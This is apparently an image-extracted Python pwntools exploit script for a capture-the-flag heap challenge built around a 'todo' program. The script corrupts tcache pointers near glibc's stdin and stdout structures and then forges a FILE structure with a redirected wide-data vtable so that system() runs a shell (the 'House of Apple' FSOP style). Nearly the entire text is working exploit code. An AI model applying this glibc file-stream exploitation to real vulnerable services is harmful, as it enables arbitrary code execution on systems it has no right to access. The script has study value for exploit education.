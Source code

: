 ```python
    libc = ELF("./libc.so.6") 
    libc.address = libc_base
    _IO_2_1_stdin_ = libc.symbols["_IO_2_1_stdin_"]
    _IO_2_1_stdout_ = libc.symbols["_IO_2_1_stdout_"]
    log.info(f"_IO_2_1_stdin_: {hex(_IO_2_1_stdin_)}")

    edit_todo(0, p64(encrypt(_IO_2_1_stdin_ + 0x30)))
    load_todo(2, 1)
    load_todo(2, 2)
    pause()

    edit_todo(2, p64(_IO_2_1_stdout_)*2 + p64(_IO_2_1_stdout_ + 0x1000))
    pause()



    def FSOP_struct(flags = 0, _IO_read_ptr = 0, _IO_read_end = 0, _IO_read_base = 0,\
    _IO_write_base = 0, _IO_write_ptr = 0, _IO_write_end = 0, _IO_buf_base = 0, _IO_buf_end = 0,\
    _IO_save_base = 0, _IO_backup_base = 0, _IO_save_end = 0, _markers= 0, _chain = 0, _fileno = 0,\
    _flags2 = 0, _old_offset = 0, _cur_column = 0, _vtable_offset = 0, _shortbuf = 0, lock = 0,\
    _offset = 0, _codecvt = 0, _wide_data = 0, _freeres_list = 0, _freeres_buf = 0,\
    __pad5 = 0, _mode = 0, _unused2 = b"", vtable = 0, more_append = b""):
        
        FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
        FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
        FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
        FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
        FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
        FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
        FSOP += p64(__pad5) + p32(_mode)
        if _unused2 == b"":
            FSOP += b"\x00"*0x14
        else:
            FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
        
        FSOP += p64(vtable)
        FSOP += more_append
        return FSOP
    
    ## Fix here ##
    libc.address = libc_base
    _IO_file_jumps = libc.symbols['_IO_file_jumps']
    stdout = libc.symbols['_IO_2_1_stdout_']
    log.info("stdout: " + hex(stdout))
    ############
    
    FSOP = FSOP_struct(flags = u64(b"\x01\x01;sh;\x00\x00"), \
            lock            = libc.symbols['_IO_2_1_stdout_'] + 0x10, \
            _IO_read_ptr    = 0x0, \
            _IO_write_base  = 0x0, \
            _wide_data      = libc.symbols['_IO_2_1_stdout_'] - 0x10, \
            _unused2        = p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104), \
            vtable          = libc.symbols['_IO_wfile_jumps'] - 0x20, \
            )

    # payload = b"7" + b" "*5 + p64(libc.symbols['_IO_2_1_stdout_'] + 0x10)
    # payload += p64(-1) + p64(0) + p64(libc_base + 0x2039c0)
    # payload += p64(0)*3 + p32(-1) + p32(0) + p64(0) + p64(0) + p64(libc_base + 0x202030)
    # payload += b"A"*0xc00
```